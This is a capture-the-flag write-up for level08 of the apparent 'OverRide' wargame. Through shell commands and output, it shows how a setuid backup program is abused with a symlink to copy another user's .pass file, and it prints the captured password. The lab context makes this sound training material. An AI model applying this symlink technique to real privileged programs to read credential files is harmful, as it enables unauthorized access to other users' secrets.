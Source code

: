 
## Solution
```
ln -s /home/users/level09/.pass password
level08@OverRide:~$ ./level08 password 
level08@OverRide:~$ cat backups/password 
```


## Execution

```
level08@OverRide:~$ ./level08 
Usage: ./level08 filename
ERROR: Failed to open (null)
level08@OverRide:~$ ./level08 /home/users/level08/.pass
ERROR: Failed to open ./backups//home/users/level08/.pass

```

## Explanation

The programs take a file as an argument, opens it and creates a backupfile of it.  
When trying to open the pass file directly, it does not work because of the concatenation, which create 2 /.  
Let's try with a file in the current directory to the pass file.  
```
level08@OverRide:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08   100 Oct 19  2016 .
dr-x--x--x  1 root    root      260 Oct  2  2016 ..
drwxrwx---+ 1 level09 users      60 Oct 19  2016 backups
-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08
-rw-r-xr--+ 1 level08 level08    41 Oct 19  2016 .pass

level08@OverRide:~$ echo hello > test
-bash: test: Permission denied
level08@OverRide:~$ chmod 777 .
level08@OverRide:~$ echo hello > test
level08@OverRide:~$ ./level08 test
level08@OverRide:~$ cat backups/test 
hello
```

This works, and the log file in backup has the content of the test file we created.  
Let's try to create a backup file of the pass file, by creating a symlink to it.  

```
level08@OverRide:~$ ln -s /home/users/level09/.pass password
level08@OverRide:~$ ls -la
total 32
drwxrwxrwx+ 1 level08 level08   140 Nov  8 11:20 .
dr-x--x--x  1 root    root      260 Oct  2  2016 ..
drwxrwx---+ 1 level09 users      80 Nov  8 11:17 backups

-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08
-rw-r-xr--+ 1 level08 level08    41 Oct 19  2016 .pass
lrwxrwxrwx  1 level08 level08    25 Nov  8 11:20 password -> /home/users/level09/.pass

level08@OverRide:~$ ./level08 password 
level08@OverRide:~$ cat backups/password 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```